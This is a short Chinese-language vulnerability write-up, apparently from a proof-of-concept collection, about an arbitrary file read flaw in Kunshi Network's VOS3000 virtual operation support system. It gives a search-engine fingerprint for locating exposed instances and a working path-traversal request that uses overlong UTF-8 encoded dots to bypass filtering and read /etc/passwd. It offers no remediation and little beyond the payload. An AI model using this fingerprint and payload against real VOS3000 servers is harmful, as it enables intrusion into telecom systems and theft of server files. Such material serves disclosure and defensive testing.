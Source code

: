 # 

# 昆石网络 VOS3000虚拟运营支撑系统 %c0%ae%c0%ae 任意文件读取漏洞

## 漏洞描述

昆石网络 VOS3000虚拟运营支撑系统 通过 %c0%ae%c0%ae 等字符绕过检测，可导致任意文件读取漏洞

## 漏洞影响

```
昆石网络 VOS3000虚拟运营支撑系统
```

## 网络测绘

```
app="VOS-VOS3000"
```

## 漏洞复现

登录页面

![image-20220525144202606](./images/202205251442673.png)

验证POC

```
/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

![](./images/202205251443278.png)
